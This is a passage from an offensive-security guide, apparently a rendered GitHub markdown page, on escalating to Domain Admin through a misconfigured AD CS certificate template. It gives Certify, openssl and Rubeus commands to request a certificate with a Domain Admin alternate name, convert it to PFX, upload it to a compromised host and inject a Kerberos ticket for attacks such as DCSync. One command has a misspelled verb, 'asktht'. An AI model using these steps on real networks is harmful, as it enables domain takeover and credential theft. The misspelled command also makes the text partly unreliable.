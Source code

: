 _Note: If a Domain Admin is in a Protected Users group, the exploit may not work as intended. Check before choosing a DA to target._

Request the DA's Account Certificate with Certify

```
.\\Certify.exe request /template:<Template Name> /quiet /ca:"<CA Name>" /domain:<domain.com> /path:CN=Configuration,DC=<domain>,DC=com /altname:<Domain Admin AltName> /machine
```

This should return a valid certificate for the associated DA account.

The exported `cert.pem` and `cert.key` files must be consolidated into a single `cert.pem` file, with one gap of whitespace between the `END RSA PRIVATE KEY` and the `BEGIN CERTIFICATE`.

_Example of `cert.pem`:_

```
-----BEGIN RSA PRIVATE KEY-----
BIIEogIBAAk15x0ID[...]
[...]
[...]
-----END RSA PRIVATE KEY-----

-----BEGIN CERTIFICATE-----
BIIEogIBOmgAwIbSe[...]
[...]
[...]
-----END CERTIFICATE-----

```

#Utilize `openssl` to Convert to PKCS #12 Format

The `openssl` command can be utilized to convert the certificate file into PKCS #12 format (you may be required to enter an export password, which can be anything you like).

```
openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx
```

Once the `cert.pfx` file has been exported, upload it to the compromised host (this can be done in a variety of ways, such as with Powershell, SMB, `certutil.exe`, Cobalt Strike's upload functionality, etc.)

After the `cert.pfx` file has been uploaded to the compromised host, [Rubeus](https://github.com/GhostPack/Rubeus) can be used to request a Kerberos TGT for the DA account which will then be imported into memory.

```
.\\Rubeus.exe asktht /user:<Domain Admin AltName> /domain:<domain.com> /dc:<Domain Controller IP or Hostname> /certificate:<Local Machine Path to cert.pfx> /nowrap /ptt
```

This should result in a successfully imported ticket, which then enables an attacker to perform various malicious acitivities under DA user context, such as performing a DCSync attack.

## **Domain Persistence**
